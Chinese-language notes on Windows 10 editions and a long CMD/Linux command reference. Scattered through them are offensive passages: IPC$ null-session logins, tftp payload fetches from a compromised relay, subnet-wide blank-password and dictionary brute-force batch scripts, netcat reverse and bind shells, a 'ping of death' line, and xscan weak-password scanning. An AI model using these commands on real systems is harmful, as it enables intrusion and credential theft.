




## windows

```
win10+centos7 + ubuntu19
五步完美实现 Win10 + Ubuntu 17.04 双系统启动

https://www.libinx.com/2017/five-steps-win10-ubuntu-dual-boot/
```

> ​	(consumer editions) 	(business editions)
>
> （消费者版）（企业版）
>
> 可以都在这种情况下安装专业版

````
首先消费者版Consumer editions包括：家庭版、家庭单语言版、教育版、专业版、专业教育版、专业工作站版（相当于之前的零售版）；
商业版Business editions包括：企业版、教育版、专业版（相当于之前的VL版）
消费版和商业版在同版本的情况下，如同是专业版，那么功能上是没有任何区别的。但是微软授权方式不同，激活方式也不同，零售版单一授权，商业版批量授权。
所有普通用户下载Win10消费版就可以了。


Windows 10 (business editions), version 1909 (x64) - DVD (Chinese-Simplified) 详细信息
文件名		cn_windows_10_business_editions_version_1909_x64_dvd_0ca83907.iso
SHA1			a153526cdd406a249a93f30b447b259fed560c1d
文件大小			4.91GB
发布时间			2019-10-16
ed2k://|file|cn_windows_10_business_editions_version_1909_x64_dvd_0ca83907.iso|5275090944|9BCD5FA6C8009E4D0260E4B23008BD47|/
2.  Windows 10 (consumer editions), version 1909 (x64) - DVD (Chinese-Simplified) 详细信息
````

 

Windows 10 business editions

ISO镜像包含以下版本（根据需要选择安装）： 

专业版、企业版、教育版、专业工作站版、专业教育版  

Windows 10 各版本区别：

家庭版(Home)：供家庭用户使用，无法加入Active Directory和Azure AD，不允许远程链接

专业版(Professional)：供小型企业使用 在家庭版基础上增加了域账号加入、bitlocker、企业商店等功能

企业版(Enterprise)：供中大型企业使用 在专业版基础上增加了DirectAccess，AppLocker等高级企业功能

教育版(Education)：供学校使用 (学校职员, 管理人员, 老师和学生) 其功能基本和企业版的一样

LTSB版：无Edge浏览器、小娜，无磁贴，可选是否下载和安装补丁，其它版都不能自选补丁

N版：带“N”的版本相当于阉割版，移除了Windows Media Player，几乎用不到N版。

Win10各版本详细区别

Windows 10 企业版（和教育版功能一样，功能最完整版本）

一、核心功能

①熟悉，更好用：自定义开始菜单，Windows Defender 与Windows防火墙，Hiberboot与InstantGo，系统启动更快速，TPM支持，节电模式，Windows更新

②Cortana小娜：更自然的语音和按键输入，主动、个性化建议，提醒，从网络、本地以及云中搜索，无需动手，直接喊出“你好，小娜”即可激活

③Windows Hello：指纹识别，面部和虹膜识别，企业级安全

④多任务操作：虚拟桌面，Snap协同（同一屏幕最多支持显示4个应用），跨不同显示器的Snap功能支持

⑤Microsoft Edge：阅读视图，内置墨水书写支持，整合Cortana小娜

二、企业特性

①基础功能：设备加密，加入域功能，组策略管理器，Bitlocker加密，企业模式Internet Explorer浏览器（EMIE），Assigned Access 8.1（访问分配），远程桌面，Direct Access（直接访问），Windows To Go创建工具，Applocker（应用程序锁定），BranchCache（分支缓存），可通过组策略控制的开始屏幕，

②管理部署功能：企业应用旁加载功能，移动设备管理，可加入到Azure活动目录，单点登录到云托管应用，Win10企业商店，粒度UX控制，可轻松从专业版升级到企业版

③安全：Microsoft Passport登录，企业数据保护，凭据保护，设备保护

④Windows即服务：Windows更新，Windows Update for Business，Current Branch for Business（用于企业的当前更新分支）

Windows 10 教育版

与企业板功能一致，授权方式不同，可轻松从家庭版升级到教育版，（经过测试专业版也可以通过输入教育版key升级到教育版）

Windows 10 专业版

与企业版对比【无】以下功能：

①基础功能：Direct Access（直接访问），Windows To Go创建工具，Applocker（应用程序锁定），BranchCache（分支缓存），可通过组策略控制的开始屏幕，

②管理部署功能：粒度UX控制

③安全：凭据保护，设备保护

Windows 10 家庭版

与专业版对比【无】以下功能：

①基础功能：加入域功能，组策略管理器，Bitlocker加密，企业模式Internet Explorer浏览器（EMIE），Assigned Access 8.1（访问分配），远程桌面，Direct Access（直接访问），Windows To Go创建工具，Applocker（应用程序锁定），BranchCache（分支缓存），可通过组策略控制的开始屏幕，

②管理部署功能：可加入到Azure活动目录，单点登录到云托管应用，Win10企业商店，粒度UX控制，可轻松从专业版升级到企业版

③安全：企业数据保护，凭据保护，设备保护

④Windows即服务：Windows Update for Business，Current Branch for Business（用于企业的当前更新分支）

Windows 10 企业版长期服务分支2015 LTSB

与企业版功能一致，可手动设置更新服务，无Edge浏览器，无商店


## Windows CMD命令大全

**命令简介**

cmd是command的缩写.即命令行 。

 

虽然随着计算机产业的发展，Windows 操作系统的应用越来越广泛，DOS 面临着被淘汰的命运，但是因为它运行安全、稳定，有的用户还在使用，所以一般Windows 的各种版本都与其兼容，用户可以在Windows 系统下运行DOS，中文版Windows XP 中的命令提示符进一步提高了与DOS 下操作命令的兼容性，用户可以在命令提示符直接输入中文调用文件。

　　在9x系统下输入command就可以打开命令行.而在NT系统上可以输入cmd来打开，在windows2003后被cmd替代，利用CMD命令查询系统的信息或者是判断网络的好坏。下图为CMD启动后的界面。


**运行操作**

CMD命令：开始－>运行－>键入cmd或command(在命令行里可以看到系统版本、文件系统版本)

CMD命令锦集

1. gpedit.msc-----组策略
2. sndrec32-------录音机
3. Nslookup-------IP地址侦测器 ，是一个 监测网络中 DNS 服务器是否能正确实现域名解析的命令行工具。 它在 Windows NT/2000/XP 中均可使用 , 但在 Windows 98 中却没有集成这一个工具。
4. explorer-------打开资源管理器
5. logoff---------注销命令
6. shutdown-------60秒倒计时关机命令
7. lusrmgr.msc----本机用户和组
8. services.msc---本地服务设置
9. oobe/msoobe /a----检查XP是否激活
10. notepad--------打开记事本
11. cleanmgr-------垃圾整理
12. net start messenger----开始信使服务
13. compmgmt.msc---计算机管理
14. net stop messenger-----停止信使服务
15. conf-----------启动netmeeting
16. dvdplay--------DVD播放器
17. charmap--------启动字符映射表
18. diskmgmt.msc---磁盘管理实用程序
19. calc-----------启动计算器
20. dfrg.msc-------磁盘碎片整理程序
21. chkdsk.exe-----Chkdsk磁盘检查
22. devmgmt.msc--- 设备管理器
23. regsvr32 /u *.dll----停止dll文件运行
4. odbcad32-------ODBC数据源管理器
5. oobe/msoobe /a----检查XP是否激活
26. ntbackup-------系统备份和还原
27. narrator-------屏幕“讲述人”
28. ntmsmgr.msc----移动存储管理器
29. ntmsoprq.msc---移动存储管理员操作请求
30. netstat -an----(TC)命令检查接口
31. syncapp--------创建一个公文包
32. sysedit--------系统配置编辑器
33. sigverif-------文件签名验证程序
34. ciadv.msc------索引服务程序
35. shrpubw--------创建共享文件夹
36. secpol.msc-----本地安全策略
37. syskey---------系统加密，一旦加密就不能解开，保护windows xp系统的双重密码
38. services.msc---本地服务设置
39. Sndvol32-------音量控制程序
40. sfc.exe--------系统文件检查器
41. sfc /scannow---windows文件保护
42. ciadv.msc------索引服务程序
43. tourstart------xp简介（安装完成后出现的漫游xp程序）
44. taskmgr--------任务管理器
45. eventvwr-------事件查看器
46. eudcedit-------造字程序
47. compmgmt.msc---计算机管理
48. packager-------对象包装程序
49. perfmon.msc----计算机性能监测程序
50. charmap--------启动字符映射表
51. cliconfg-------SQL SERVER 客户端网络实用程序
52. Clipbrd--------剪贴板查看器
53. conf-----------启动netmeeting
54. certmgr.msc----证书管理实用程序
55. regsvr32 /u *.dll----停止dll文件运行
56. regsvr32 /u zipfldr.dll------取消ZIP支持
57. cmd.exe--------CMD命令提示符

**操作详解**　

    net use ipipc$ " " /user:" " 建立IPC空链接
net use ipipc$ "密码" /user:"用户名" 建立IPC非空链接
net use h: ipc$ "密码" /user:"用户名" 直接登陆后映射对方C：到本地为H:
net use h: ipc$ 登陆后映射对方C：到本地为H:
net use ipipc$ /del 删除IPC链接
net use h: /del 删除映射对方到本地的为H:的映射
net user 用户名　密码　/add 建立用户
net user guest /active:yes 激活guest用户
net user 查看有哪些用户
net user 帐户名 查看帐户的属性
net localgroup administrators 用户名 /add 把“用户”添加到管理员中使其具有管理员权限
net start 查看开启了哪些服务
net start 服务名　开启服务；(如:net start telnet， net start schedule)
net stop 服务名 停止某服务
net time 目标ip 查看对方时间
net time 目标ip /set 设置本地计算机时间与“目标IP”主机的时间同步,加上参数/yes可取消确认信息
net view 查看本地局域网内开启了哪些共享
net view ip 查看对方局域网内开启了哪些共享
net config 显示系统网络设置
net logoff 断开连接的共享
net pause 服务名 暂停某服务
net send ip "文本信息" 向对方发信息
net ver 局域网内正在使用的网络连接类型和信息
net share 查看本地开启的共享
net share ipc$ 开启ipc$共享
net share ipc$ /del 删除ipc$共享
net share c$ /del 删除C：共享
net user guest 12345 用guest用户登陆后用将密码改为12345
net password 密码 更改系统登陆密码
netstat -a 查看开启了哪些端口,常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
finger username @host 查看最近有哪些用户登陆
telnet ip 端口 远和登陆服务器,默认端口为23
open ip 连接到IP（属telnet登陆后的命令）
telnet 在本机上直接键入telnet 将进入本机的telnet
copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
用参数/e才可连目录下的子目录一起复制到目标地址下。
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
mem 查看cpu使用情况
attrib 文件名(目录名) 查看某文件（目录）的属性
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
set 指定环境变量名称=要指派给变量的字符 设置环境变量
set 显示当前所有的环境变量
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
pause 暂停批处理程序，并显示出：请按任意键继续....
if 在批处理程序中执行条件处理（更多说明见if命令及变量）
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
echo 信息 在屏幕上显示出信息
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
find 文件名 查找某文件
title 标题名字 更改CMD窗口标题名字
color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
ver 在DOS窗口下显示版本信息
winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
md　目录名 创建目录
replace 源文件　要替换文件的目录 替换文件
ren 原文件名　新文件名 重命名文件名
tree 以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称
type 文件名 显示文本文件的内容
more 文件名 逐屏显示输出文件
doskey 要锁定的命令=字符
doskey 要解锁命令= 为DOS提供的锁定命令(编辑命令行，重新调用win2k命令，并创建宏)。如：锁定dir命令：doskey dir=entsky (不能用doskey dir=dir)；解锁：doskey dir=
taskmgr 调出任务管理器
chkdsk /F D: 检查磁盘D并显示状态报告；加参数/f并修复磁盘上的错误
tlntadmn telnt服务admn,键入tlntadmn选择3，再选择8,就可以更改telnet服务默认端口23为其它任何端口
exit 退出cmd.exe程序或目前，用参数/B则是退出当前批处理脚本而不是cmd.exe
path 路径可执行文件的文件名 为可执行文件设置一个路径。
cmd 启动一个win2K命令解释窗口。参数：/eff、/en 关闭、开启命令扩展；更我详细说明见cmd /?
regedit /s 注册表文件名 导入注册表；参数/S指安静模式导入，无任何提示；
regedit /e 注册表文件名 导出注册表
cacls 文件名　参数 显示或修改文件访问控制列表（ACL）——针对NTFS格式时。参数：/D 用户名:设定拒绝某用户访问；/P 用户名:perm 替换指定用户的访问权限；/G 用户名:perm 赋予指定用户访问权限；Perm 可以是: N 无，R 读取， W 写入， C 更改(写入)，F 完全控制；例：cacls D: est.txt /D pub 设定d: est.txt拒绝pub用户访问。
cacls 文件名 查看文件的访问用户权限列表
REM 文本内容 在批处理文件中添加注解
netsh 查看或更改本地网络配置情况
IIS服务命令
iisreset /reboot 重启win2k计算机（但有提示系统将重启信息出现）
iisreset /start或stop 启动（停止）所有Internet服务
iisreset /restart 停止然后重新启动所有Internet服务
iisreset /status 显示所有Internet服务状态
iisreset /enable或disable 在本地系统上启用（禁用）Internet服务的重新启动
iisreset /rebootonerror 当启动、停止或重新启动Internet服务时，若发生错误将重新开机
iisreset /noforce 若无法停止Internet服务，将不会强制终止Internet服务
iisreset /timeout Val在到达逾时间（秒）时，仍未停止Internet服务，若指定/rebootonerror参数，则电脑将会重新开机。预设值为重新启动20秒，停止60秒，重新开机0秒。
FTP 命令： (后面有详细说明内容)
ftp的命令行格式为:
ftp －v －d －i －n －g[主机名] －v 显示远程服务器的所有响应信息。
－d 使用调试方式。
－n 限制ftp的自动登录,即不使用.netrc文件。
－g 取消全局文件名。
help [命令] 或 ？[命令] 查看命令说明
bye 或 quit 终止主机FTP进程,并退出FTP管理方式.
pwd 列出当前远端主机目录
put 或 send 本地文件名 [上传到主机上的文件名] 将本地一个文件传送至远端主机中
get 或 recv [远程主机文件名] [下载到本地后的文件名] 从远端主机中传送至本地主机中
mget [remote-files] 从远端主机接收一批文件至本地主机
mput local-files 将本地主机中一批文件传送至远端主机
dir 或 ls [remote-directory] [local-file] 列出当前远端主机目录中的文件.如果有本地文件,就将结果写至本地文件
ascii 设定以ASCII方式传送文件(缺省值)
bin 或 image 设定以二进制方式传送文件
bell 每完成一次文件传送,报警提示
cdup 返回上一级目录
close 中断与远程服务器的ftp会话(与open对应)
open host[port] 建立指定ftp服务器连接,可指定连接端口
delete 删除远端主机中的文件
mdelete [remote-files] 删除一批文件
mkdir directory-name 在远端主机中建立目录
rename [from] [to] 改变远端主机中的文件名
rmdir directory-name 删除远端主机中的目录
status 显示当前FTP的状态
system 显示远端主机系统类型
user user-name [password] [account] 重新以别的用户名登录远端主机
open host [port] 重新建立一个新的连接
prompt 交互提示模式
macdef 定义宏命令
lcd 改变当前本地主机的工作目录,如果缺省,就转到当前用户的HOME目录
chmod 改变远端主机的文件权限
case 当为ON时,用MGET命令拷贝的文件名到本地机器中,全部转换为小写字母
cd remote－dir 进入远程主机目录
cdup 进入远程主机目录的父目录
! 在本地机中执行交互shell，exit回到ftp环境,如!ls*.zip
#5
MYSQL 命令
mysql -h主机地址 -u用户名 －p密码 连接MYSQL;如果刚安装好MYSQL，超级用户root是没有密码的。
（例：mysql -h110.110.110.110 -Uroot -P123456
注:u与root可以不用加空格，其它也一样）
exit 退出MYSQL
mysqladmin -u用户名 -p旧密码 password 新密码 修改密码
grant select on 数据库.* to 用户名@登录主机 identified by "密码"; 增加新用户。（注意：和上面不同，下面的因为是MYSQL环境中的命令，所以后面都带一个分号作为命令结束符）
show databases; 显示数据库列表。刚开始时才两个数据库：mysql和test。mysql库很重要它里面有MYSQL的系统信息，我们改密码和新增用户，实际上就是用这个库进行操作。
use mysql；
show tables; 显示库中的数据表
describe 表名; 显示数据表的结构
create database 库名; 建库
use 库名；
create table 表名 (字段设定列表)； 建表
drop database 库名;
drop table 表名； 删库和删表
delete from 表名; 将表中记录清空
select * from 表名; 显示表中的记录
mysqldump --opt school>school.bbb 备份数据库：（命令在DOS的mysqlin目录下执行）;注释:将数据库school备份到school.bbb文件，school.bbb是一个文本文件，文件名任取，打开看看你会有新发现。
win2003系统下新增命令（实用部份）：
shutdown /参数 关闭或重启本地或远程主机。
参数说明：/S 关闭主机，/R 重启主机， /T 数字 设定延时的时间，范围0～180秒之间， /A取消开机，/M //IP 指定的远程主机。
例：shutdown /r /t 0 立即重启本地主机（无延时）
taskill /参数 进程名或进程的pid 终止一个或多个任务和进程。
参数说明：/PID 要终止进程的pid,可用tasklist命令获得各进程的pid，/IM 要终止的进程的进程名，/F 强制终止进程，/T 终止指定的进程及他所启动的子进程。
tasklist 显示当前运行在本地和远程主机上的进程、服务、服务各进程的进程标识符(PID)。

## ls - al

　　参数说明：/M 列出当前进程加载的dll文件，/SVC 显示出每个进程对应的服务，无参数时就只列出当前的进程。

　　Linux系统下基本命令　注：要区分大小写

　　uname 显示版本信息（同win2K的 ver）

　　**dir 显示当前目录文件,ls -al 显示包括隐藏文件（同win2K的 dir）**

　　pwd 查询当前所在的目录位置

　　cd cd　..回到上一层目录，注意cd 与..之间有空格。cd　/返回到根目录。

　　cat 文件名 查看文件内容

　　cat >abc.txt 往abc.txt文件中写上内容。

　　more 文件名 以一页一页的方式显示一个文本文件。

　　cp 复制文件

　　mv 移动文件

　　rm 文件名 删除文件，rm -a 目录名删除目录及子目录

　　mkdir 目录名 建立目录

　　rmdir 删除子目录，目录内没有文档。

　　chmod 设定档案或目录的存取权限

　　grep 在档案中查找字符串

　　diff 档案文件比较

　　find 档案搜寻

　　date 现在的日期、时间

　　who 查询目前和你使用同一台机器的人以及Login时间地点

　　w 查询目前上机者的详细资料

　　whoami 查看自己的帐号名称

　　groups 查看某人的Group

　　passwd 更改密码

　　history 查看自己下过的命令

　　ps 显示进程状态

　　kill 停止某进程

　　gcc 黑客通常用它来编译C语言写的文件

　　su 权限转换为指定使用者

　　telnet IP telnet连接对方主机（同win2K），当出现bash$时就说明连接成功。

　　ftp ftp连接上某服务器（同win2K）

　　批处理命令与变量

　　1：for命令及变量 基本格式

　　FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。

　　批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：net use ipipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3

　　(set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1 }

　　command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开

　　command_parameters：为特定命令指定参数或命令行开关

　　IN (set)：指在(set)中取值；DO command ：指执行command

　　参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。

　　用法举例：

　　@echo off

　　echo 用法格式：test.bat *.*.* > test.txt

　　for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt

　　存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。

　　/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。

　　@echo off

　　echo 用法格式：ok.bat ip

　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200

　　存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。

　　七：

　　2：if命令及变量 基本格式

　　IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。

　　例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。

　　0 指发现并成功执行（真）；1 指没有发现、没执行（假）。

　　IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。

　　例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）

　　IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。

　　例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。

　　IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. <del test.txt.> else echo test.txt.missing ”，注意命令中的“.”

　　系统外部命令

　　注：系统外部命令(均需下载相关工具)

　　瑞士军刀：nc.exe

　　参数说明：

　　-h 查看帮助信息

　　-d 后台模式

　　-e prog程序重定向，一但连接就执行[危险]

　　-i secs延时的间隔

　　-l 监听模式，用于入站连接

　　-L 监听模式，连接天闭后仍然继续监听，直到CTR+C

　　-n IP地址，不能用域名

　　-o film记录16进制的传输

　　-p[空格]端口 本地端口号

　　-r 随机本地及远程端口

　　-t 使用Telnet交互方式

　　-u UDP模式

　　-v 详细输出，用-vv将更详细

　　-w数字 timeout延时间隔

　　-z 将输入，输出关掉（用于扫锚时）

　　基本用法：

　　nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口

　　nc -l -p 80 开启本机的TCP 80端口并监听

　　nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口

　　nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口

　　nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口

　　高级用法：

　　nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止

　　nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt

　　nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用

　　type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用

　　本机上用：nc -l -p 本机端口

　　在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K

　　nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙

　　本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称

　　在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机

　　备 注：

　　| 管道命令

　　< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令

　　@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中

　　>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。

　　如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。

　　八：

　　扫描工具：xscan.exe

　　基本格式

　　xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息

　　xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息

　　检测项目

　　-active 检测主机是否存活

　　-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）

　　-port 检测常用服务的端口状态

　　-ftp 检测FTP弱口令

　　-pub 检测FTP服务匿名用户写权限

　　-pop3 检测POP3-Server弱口令

